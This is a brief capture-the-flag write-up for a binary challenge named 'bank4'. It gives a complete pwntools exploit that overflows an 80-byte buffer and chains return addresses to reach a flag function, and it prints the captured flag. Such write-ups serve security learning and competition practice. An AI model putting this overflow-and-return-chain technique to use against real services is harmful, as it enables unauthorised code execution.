 ## bank4 (200 points)

#### Solved by nhanlun

```
nc 61.28.237.24 30205

author: xikhud
```

```py
from pwn import *

up1 = 0x080488a5
up2 = 0x080488db
register = 0x0804895b
getflag = 0x08048906

conn = remote('61.28.237.24', 30205)
conn.sendlineafter('name:', b'A' * 80 + p32(up2) + p32(register) + p32(1) + p32(1) + p32(0x12345678))
conn.sendlineafter('name:', b'A' * 80 + p32(up1) + p32(getflag) + p32(4919) + p32(57005))
conn.interactive()
```

**Flag:** `HCMUS-CTF{trungdeptrai}`
